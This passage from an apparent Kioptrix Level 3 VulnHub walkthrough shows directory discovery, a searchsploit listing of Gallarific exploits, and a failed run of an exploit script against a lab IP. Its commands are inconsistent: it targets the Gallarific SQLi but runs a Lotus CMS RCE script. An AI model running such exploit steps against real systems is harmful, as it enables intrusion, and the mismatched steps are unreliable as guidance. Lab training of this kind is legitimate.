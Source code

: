 It can be seen that multiple directories have been detected, so we can explore each one of them to look for anything that might be helpful for us to gain access to the machine.

From the detected directories, the `/gallery` directory appears to be helpful as it shows some images and when we look at its source-code, we can find that it is running on a application named "**Gallarific PHP Photo Script**". 

![gallarific](./.images/gallarific.png)

After some googling, we can figure out that "Gallarific" is susceptible to SQLi.  We can also find a python script using `searchsploit` which might be helpful to exploit this SQLi.

```
┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv3]
└─$ searchsploit gallarific                                                                       1 ⨯
-------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                      |  Path
-------------------------------------------------------------------- ---------------------------------
Gallarific - 'search.php?query' Cross-Site Scripting                | php/webapps/31369.txt
Gallarific - 'user.php' Arbirary Change Admin Information           | php/webapps/8796.html
Gallarific - Multiple Script Direct Request Authentication Bypass   | php/webapps/31370.txt
Gallarific 1.1 - '/gallery.php' Arbitrary Delete/Edit Category      | php/webapps/9421.txt
GALLARIFIC PHP Photo Gallery Script - 'gallery.php' SQL Injection   | php/webapps/15891.txt
-------------------------------------------------------------------- ---------------------------------
```

We can check out the last one i.e. `php/webapps/15891.txt`.

```
┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv3]
└─$ locate 15891.py | xargs -I{} cp {} .

┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv3]
└─$ python 15964.py -c -t 192.168.0.145 -i 1281005380 -d ""

	| -------------------------------------------- |
	| Lotus CMS v3.0 Remote Code Execution Exploit |
	| by mr_me - net-ninja.net ------------------- |

(+) Exploiting target @: 192.168.0.145
(+) Writing comment.. (-) Target connection failed, check your address

```
